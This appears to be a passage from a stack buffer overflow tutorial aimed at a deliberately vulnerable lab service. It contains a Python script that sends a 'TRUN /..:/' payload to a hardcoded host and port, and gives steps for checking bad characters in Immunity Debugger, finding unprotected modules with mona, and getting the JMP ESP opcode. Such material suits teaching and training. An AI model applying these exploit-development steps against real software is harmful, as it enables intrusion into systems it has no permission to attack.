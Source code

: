 ```

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```
      
run the badchars.py script

#### Windows 10: 
look at the Hex dump

Immunity Debugger Registers window

	right click on ESP > Follow in Dump

in Dump window you will go through the HEX DUMP looking to see if everything matches what you sent to the program in badchars.py. Any missing or replaced characters are 
considered bad characters and should be removed from the final part. 


## Finding the Right Module:

#### Windows 10:
mona module can be used with Immunity Debugger to help us find the module or DLL that has no memory protection. 

Download mona.py from https://github.com/corelan/mona 

Put it in the folder “C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands”

In Immunity Debugger the search bar at the very bottom type:

```
!mona modules
under module information we are looking for all “False” labels and attached to the program we have been trying to exploit. 
```

#### Kali Linux:
##### look up assembly code for jmp esp
##### FFE4
##### \xff\xe4
```
# locate nsam_shell
copy location address. Then run it.
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP			# this is what we enter to get the code for jumping to the ESP
00000000 FFE4		jmp esp
nasm > exit
```
